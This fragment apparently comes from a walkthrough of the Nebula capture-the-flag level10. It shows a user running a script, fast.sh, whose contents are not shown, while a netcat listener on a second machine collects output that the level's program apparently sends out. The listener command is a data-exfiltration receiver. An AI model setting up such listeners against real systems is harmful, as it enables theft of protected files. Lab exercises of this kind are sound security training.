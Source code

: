 
level10@nebula:~$ chmod +x fast.sh

on server 192.168.32.115:
$ nc -k -l 18211 | grep -v ".oO Oo."

level10@nebula:~$ ./fast.sh
